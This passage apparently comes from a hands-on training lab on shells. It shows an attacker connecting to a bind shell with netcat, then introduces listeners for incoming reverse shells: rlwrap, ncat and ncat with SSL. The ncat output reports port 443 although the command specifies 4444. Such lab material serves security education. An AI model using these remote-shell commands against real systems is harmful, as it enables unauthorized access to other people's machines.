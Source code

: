 - `8080`  
  The port number on which the bind shell listens.

*Attacker Terminal (After Connection)*

```bash 
attacker@kali:~$ nc -nv 10.10.13.37 8080 
(UNKNOWN) [10.10.13.37] 8080 (http-alt) open
target@tryhackme:~$
```
After connecting, we can get a shell, as shown above, and execute commands.

## Shell Listeners

As we learned in previous tasks, a reverse shell will connect from the compromised target to the attacker's machine. A utility like Netcat will handle the connection and allow the attacker to interact with the exposed shell, but Netcat is not the only utility that will allow us to do that.

Let's explore some tools that can be used as listeners to interact with an incoming shell.

#### Rlwrap
It is a small utility that uses the GNU readline library to provide editing keyboard and history.

**Usage Example (Enhancing a Netcat Shell With Rlwrap)**
```bash 
attacker@kali:~$ rlwrap nc -lvnp 443
listening on [any] 443 ...
```
This wraps `nc` with `rlwrap`, allowing the use of features like arrow keys and command history for better interaction.

#### Ncat
Ncat is an improved version of Netcat distributed by the NMAP project. It provides extra features, like encryption (SSL).

**Usage Example (Listening for Reverse Shells)**
```bash 
attacker@kali:~$ ncat -lvnp 4444
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Listening on [::]:443
Ncat: Listening on 0.0.0.0:443
```
**Usage Example (Listening for Reverse Shells with SSL)**
```bash 
attacker@kali:~$ ncat --ssl -lvnp 4444
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Generating a temporary 2048-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
Ncat: SHA-1 fingerprint: B7AC F999 7FB0 9FF9 14F5 5F12 6A17 B0DC B094 AB7F
Ncat: Listening on [::]:443
Ncat: Listening on 0.0.0.0:443
```
The `--ssl` option enables SSL encryption for the listener.

#### Socat
It is a utility that allows you to create a socket connection between two data sources, in this case, two different hosts.
